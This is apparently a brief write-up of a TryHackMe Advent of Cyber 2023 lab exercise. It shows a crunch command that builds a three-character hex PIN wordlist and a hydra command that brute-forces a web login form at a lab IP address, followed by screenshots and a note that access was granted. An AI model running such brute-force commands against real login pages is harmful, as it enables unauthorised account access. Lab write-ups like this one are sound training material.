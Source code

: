 # Day 2

![image](https://github.com/PolGs/THM-Advent-of-Cyber-2023/assets/19478700/86c03667-b93e-4e16-9d02-74c409f88ea6)
![image](https://github.com/PolGs/THM-Advent-of-Cyber-2023/assets/19478700/1c81a9f1-4649-4232-b609-8eabad750d2a)


## Generating password wordlist with crunch
```s
crunch 3 3 0123456789ABCDEF -o 3digits.txt
```
![image](https://github.com/PolGs/THM-Advent-of-Cyber-2023/assets/19478700/44c735dc-8ed4-472e-b7d1-af5291b0fb5d)


## Cracking with hydra
```s
hydra -l '' -P 3digits.txt -f -v 10.10.174.107 http-post-form "/login.php:pin=^PASS^:Access denied" -s 8000
```
![image](https://github.com/PolGs/THM-Advent-of-Cyber-2023/assets/19478700/72875a73-ea57-4b6f-9363-97fc988a72f8)
![image](https://github.com/PolGs/THM-Advent-of-Cyber-2023/assets/19478700/fcd09e81-2474-4ea7-8616-0ebaf2f758c5)

Acces granted
![image](https://github.com/PolGs/THM-Advent-of-Cyber-2023/assets/19478700/64d6ae96-ecc6-4307-b6e1-4cc05a1ccd55)

